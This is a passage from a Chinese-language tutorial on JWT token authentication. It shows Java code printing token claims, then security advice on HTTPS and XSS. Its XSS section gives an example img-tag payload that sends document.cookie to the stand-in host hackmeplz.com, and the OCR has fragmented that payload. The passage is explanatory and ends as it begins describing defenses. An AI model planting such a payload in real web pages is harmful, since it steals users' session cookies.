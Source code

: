 ```
 + claims.getSubject());

System
.out.
println
(
"Issuer: "
 + claims.getIssuer());

System
.out.
println
(
"Expiration: "
 + claims.getExpiration());
}

```

## 基于JWT的Token认证的安全问题 {#基于jwt的token认证的安全问题}

### 确保验证过程的安全性 {#确保验证过程的安全性}

如何保证用户名/密码验证过程的安全性；因为在验证过程中，需要用户输入用户名和密码，在这一过程中，用户名、密码等敏感信息需要在网络中传输。因此，在这个过程中建议采用HTTPS，通过SSL加密传输，以确保通道的安全性。

### 如何防范XSS Attacks {#如何防范xss-attacks}

浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击\(Cross Site Scripting\)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：

```
<
img src=
"x"
/
>
 a.src='https:/
/hackmeplz.com/yourCookies.png/
?cookies=’
+
document
.cookie;
return
 a}())
"
```

这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？

* **XSS攻击代码过滤**
 